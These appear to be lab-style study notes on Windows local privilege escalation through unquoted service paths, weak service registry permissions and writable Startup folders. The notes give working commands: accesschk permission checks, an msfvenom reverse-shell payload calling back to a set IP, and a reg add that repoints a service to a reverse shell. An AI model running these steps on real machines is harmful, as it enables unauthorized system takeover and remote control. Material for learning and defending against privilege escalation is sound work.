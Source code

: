 ### Unquoted Path Service

```
To check permissions to start the service
.\accesschk.exe /accepteula -ucqv user unquotedsvc

Check folder for write permissions

.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

Exploit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.149.131 LPORT=9002 -f exe > Wise.exe

or

powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"

Paste exploit in that directory
net start unquotedsvc
```

### Weak Registry Permissions

If we can modify the registry of a service. Ex: HKLM\system\currentcontrolset\services\regsvc

Check permissions

```
.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrolset\services\regsvc

Check the value of the registry entry

reg query HKLM\system\currentcontrolset\services\regsvc

Change the path of the value to a reverse shell

reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

net start regsvc
```

### Startup Apps

```
.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

Check for Write access.

Create a shortcut to the exploit. There is a script already available in the privesc files.
type CreateShortcut.vbs
cscript CreateShortcut.vbs

Start listener

Logout and Log back in as the admin user.

icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" 
If the group has full access (F) then we simply upload a rev shell on this folder and wait for a login/reboot.

```
